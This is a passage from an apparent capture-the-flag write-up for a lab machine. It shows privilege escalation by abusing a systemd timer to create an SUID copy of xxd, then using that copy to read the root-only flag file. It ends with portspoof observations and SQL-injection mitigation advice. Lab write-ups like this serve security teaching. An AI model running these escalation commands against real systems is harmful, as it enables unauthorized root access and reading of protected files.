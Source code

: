 This service creates a copy of `xxd` in opt and gives it suid and execute permission.

Let's edit the `exploit.timer` file and add `1s` as a value for `OnBootSec`.

And now we start the service:

```bash
sudo /bin/systemctl start exploit.timer
```

If we check the /opt directory we find the binary

```terminal
comte@cheesectf:/etc/systemd/system$ ls /opt -l
total 20
-rwsr-sr-x 1 root root 18712 Sep 27 23:11 xxd
```

Going to [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#suid) we can find how to exploit suid xxd.

![xxd](10.png)

We can read the root.txt file with the following command;

```terminal
comte@cheesectf:/etc/systemd/system$ /opt/xxd /root/root.txt | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{REDACTED}

```

## **Beyond root**

In my attempt to get a shell, I printed the `.bash_history` of root wishing I would find a password there, but I found the command `git clone https://github.com/drk1wi/portspoof.git`.

Going to the repository I find that this tool shows all the ports as open and emulate a service, which explains the long time nmap takes to scan the target, and when i used a fast scan it indeed showd every port as open which made me think there was sth wrong in my end.

## **Prevention and Mitigation**

### SQL injection

The login page is vulnerable to sqli allowing us the bypass the authentication and access sensitive data and functionalities

You can prevent most instances of SQL injection using parameterized queries instead of string concatenation within the query. These parameterized queries are also know as "prepared statements".
